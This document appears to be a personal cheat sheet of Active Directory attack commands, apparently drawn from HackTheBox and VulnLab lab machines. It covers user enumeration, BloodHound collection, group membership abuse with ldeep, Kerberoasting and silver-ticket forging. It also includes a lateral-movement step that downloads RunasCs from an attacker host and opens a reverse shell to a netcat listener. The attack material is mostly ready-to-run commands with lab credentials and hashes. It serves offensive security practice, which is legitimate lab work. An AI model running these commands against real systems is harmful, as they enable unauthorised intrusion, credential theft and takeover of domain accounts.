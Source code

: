 #### enumerate other users remotely
```
nxc smb administrator.htb -u "Olivia" -p "ichliebedich" --rid-brute | grep SidTypeUser
```
or from a shell on the target:
```
net users
```
other tools:
```
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.129.78.4
```

---
#### if creds are valid over smb, but not winrm/rdp, try enum4linux with them:
```
enum4linux -a -u "fmcsorley" -p "CrabSharkJellyfish192" 192.168.199.122
```

---
#### run bloodhound remotely
```
bloodhound-python -c All -dc FOREST.htb.local -gc FOREST.htb.local -ns 10.129.175.196 -d htb.local -u svc-alfresco -p 's3rvice'
```
or use nxc:
```
nxc ldap administrator.htb -u Olivia -p ichliebedich --bloodhound --collection All --dns-tcp --dns-server 10.10.11.42
```
or if creds work with shell, can run SharpHound
```
. .\SharpHound.ps1
```
```
Invoke-BloodHound -CollectionMethod All
```

---
#### want to move laterally and have low level (like svc) creds, but that user is not in Remote Users group (so cant execute commands remotely ie get winrm shell):
- host RunAsCs.exe on python server to upload:
	- `python -m http.server 80`
- set up listener:
	- `rlwrap -cAr nc -lvnp 6969`
- upload RunAsCs.exe to svc level shell:
	- `powershell -c wget 10.10.14.172/RunasCs.exe -outfile r.exe`
- run RunasCs.exe:
```
.\r.exe C.Bum Tikkycoll_431012284 -r 10.10.14.172:6969 cmd
```
- should create new shell in listener as c.bum
	- c.bum:Tikkycoll_431012284 are creds
	- 10.10.14.172 is tun0 on local machine

---
#### if creds are valid, but nxc doesn't show pwned for winrm, run ldeep:
```
ldeep ldap -u tracy.white -p 'zqwj041FGX' -d nara-security.com -s ldap://nara-security.com add_to_group "CN=TRACY WHITE,OU=STAFF,DC=NARA-SECURITY,DC=COM" "CN=REMOTE ACCESS,OU=remote,DC=NARA-SECURITY,DC=COM" && deactivate
```
- adds user to remote access group, so evil-winrm should work afterward
- because of conflicting ldap3 python module with bloodhound, set up ldeep to run in virtual environment with alias so `&& deactivate` just exits that

---
#### ***Silver Ticket***
have low level creds, check for SID(from `enum4linux` or `lookupsid.py`) and ServicePrincipalName (from `GetUserSPNs.py`) of user to make silver ticket
```
GetUserSPNs.py breach.vl/julia.wong:Computer1 -dc-ip 10.10.10.111 -request
```
- returns ntlmv2 hash (crack with `john`) and ServicePrincipalName like `MSSQLSVC/BREACH.VL:1433` used in `ticketer.py` command below:
```
lookupsid.py breach.vl/julia.wong:computer1@10.10.10.10
```
- copy Domain SID for `ticketer.py` command below
- get nthash from ntlm hash generator from password from https://codebeautify.org/ntlm-hash-generator
	- Trustno1 = 69596C7AA1E8DAEE17F8E78870E25A5C
- - make sure `/etc/hosts` reflects IP for Domain `BREACH.VL`
```
ticketer.py -nthash 69596C7AA1E8DAEE17F8E78870E25A5C
-domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl spn 'MSSQLSVC/BREACH.VL:1433@BREACH.VL' -user-id 500 Administrator
```
- will output "saving ticket in Administrator.ccache"
```
export KRB5CCNAME=/home/kali/Desktop/VulnLab/ldap/Administrator.ccache
```
- caches creds
```
mssqlclient.py breach.vl -k -no-pass -windows-auth
```

---
#### PowerView.ps1 (command line alternative to Bloodhound)
```
. .\PowerView.ps1
```
- adds commands to powershell
```
$UsersAcls = Get-DomainObjectAcl -SearchBase "CN=Users,DC=administrator,DC=htb" -ResolveGUIDs
```
- save all user ACLs to variable
```
$UsersAcls | Where-Object { $_.SecurityIdentifier -eq $Olivia.ObjectSID } | Select-Object IdentityReference, ObjectDN, ActiveDirectoryRights | Format-Table -AutoSize
```
- filter $ UsersAcls variable to show rights Olivia has over others
- alternative approach:
To see what rights user (Olivia) has over another user (Michael):
```
$Olivia = Get-ADUser -Identity "olivia" -Properties ObjectSID
```
- saves variable of olivia's SID
```
$MichaelACL = Get-DomainObjectAcl -Identity "CN=Michael Williams,CN=Users,DC=administrator,DC=htb" -ResolveGUIDs
```
- saves Michael's ACL list as a variable
```
$MichaelACL | Where-Object { $_.SecurityIdentifier -eq $Olivia.ObjectSID -and $_.ActiveDirectoryRights -match "GenericAll" } | Select-Object IdentityReference, ActiveDirectoryRights
```
- filters michael's ACL list to show Olivia's rights over him